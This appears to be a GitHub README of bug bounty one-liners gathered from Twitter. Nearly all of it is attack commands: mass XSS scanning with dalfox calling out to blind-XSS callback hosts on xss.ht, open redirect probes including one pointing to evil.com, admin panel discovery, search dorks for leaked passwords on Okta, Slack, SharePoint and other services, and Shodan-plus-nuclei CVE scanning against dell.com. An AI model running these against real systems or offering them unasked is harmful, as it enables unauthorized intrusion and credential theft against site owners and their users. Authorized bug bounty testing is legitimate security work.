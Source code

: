 # BugBountyTIps
Everything about bug bounty tips on twitter

<h2>XSS ONE LINER</h2>

```
cat domainlist.txt | subfinder | dnsx | waybackurl | egrep -iv "\.(jpg|jpeg|gif|css|tif|tiff|png|ttf|woff|woff2|ico|pdf|svg|txt|js)" | uro  | dalfox pipe -b your.xss.ht -o xss.txt
```
## XSS ONE LINER WITH KXSS

```
assetfinder -subs-only domain.com | waybackurls | grep "=" | kxss | sed 's/=.*/=/' | sed 's/URL: //' | dalfox pipe -b https://syarifsajjad.xss.ht/
```

## OPEN REDIRECT ONE LINER

```
subfinder -all -d target.com -silent | waybackurls | gf redirect | qsreplace 'http://example.com' | httpx -fr -title -match-string 'Example Domain'
```

## ADMIN PANEL

```
cat hosts.txt | httpx -ports 80,443,8080,8443,8090 -path /web-console/ -status-code -title -nc -t 250 -mc 200 
```

## RANDOM BUG BOUNTY HUNTING (Special tweet from Orwa Atyat) :)

```
*OKTA*
okta.com password NOT help.okta NOT developer.okta NOT support.okta NOT www.okta
*ServiceNOW*
service-now password
*Jfrog*
jfrog.io password
*onelogin*
onelogin.com password
*Atlassian*
atlassian.net password NOT domain.atlassian NOT user.atlassian NOT help.atlassian NOT
*Snow..*
snowflakecomputing.com password
*Slack*
slack.com  password
*Zendesk*
zendesk.com password NOT www.zendesk
*SharePoint*
sharepoint.com password
*Auth0*
auth0.com password NOT docs.auth0
```

## XSS PARAMSPIDER + GF XSS + DALFOX

```
python paramspider --domain target.com -o output
cat output | gf xss > gf_xss.txt
cat gf_xss.txt | dalfox -b yoursite.xss.ht
```
## SHODAN + NUCLEI = JUICY CVE

```
echo 'ssl:"dell.com" 200' | uncover -e shodan | httpx -silent | nuclei --severity medium,high,critical
```
## GIT DORKS

```
https://github.com/search?o=desc&q=att.com&s=indexed&type=Code
```

## WP OPEN REDIRECT

```
 cat status.txt | grep "WordPress" | cut -d ' ' -f1 | httpx -path "/?aiowpsec_do_log_out=1&after_logout=https://evil.com" -sc --title -location
```
